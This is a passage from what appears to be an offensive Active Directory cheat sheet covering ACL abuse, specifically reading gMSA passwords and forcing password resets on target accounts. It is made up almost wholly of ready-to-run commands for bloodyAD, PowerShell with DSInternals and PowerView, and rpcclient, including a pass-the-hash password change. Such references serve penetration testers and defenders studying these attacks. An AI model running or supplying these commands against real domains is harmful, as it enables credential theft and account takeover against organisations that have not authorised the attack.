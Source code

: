 ## ReadGMSAPassword

An attacker can read the GMSA password of the account this ACE applies to.

* Windows/Linux:
	```ps1
	bloodyAD -u john.doe -d bloody -p Password512 --host 192.168.10.2 get object 'gmsaAccount$' --attr msDS-ManagedPassword
	```
* Windows only:
	```ps1
	# Save the blob to a variable
	$gmsa = Get-ADServiceAccount -Identity 'SQL_HQ_Primary' -Properties 'msDS-ManagedPassword'
	$mp = $gmsa.'msDS-ManagedPassword'

	# Decode the data structure using the DSInternals module
	ConvertFrom-ADManagedPasswordBlob $mp
	```

## ForceChangePassword

An attacker can change the password of the user this ACE applies to:

* Windows/Linux:
	```ps1
	# Using bloodyAD with pass-the-hash
	bloodyAD --host [DC IP] -d DOMAIN -u attacker_user -p :B4B9B02E6F09A9BD760F388B67351E2B set password target_user target_newpwd
	```
* Windows:
	```powershell
	$NewPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
	Set-DomainUserPassword -Identity 'TargetUser' -AccountPassword $NewPassword
	```
* Linux:
	```ps1
	# Using rpcclient from the  Samba software suite
	rpcclient -U 'attacker_user%my_password' -W DOMAIN -c "setuserinfo2 target_user 23 target_newpwd" 
	```

## Organizational Units ACL

Access rights granted on Organizational Units can be exploited to compromise all the objects that are contained in it.
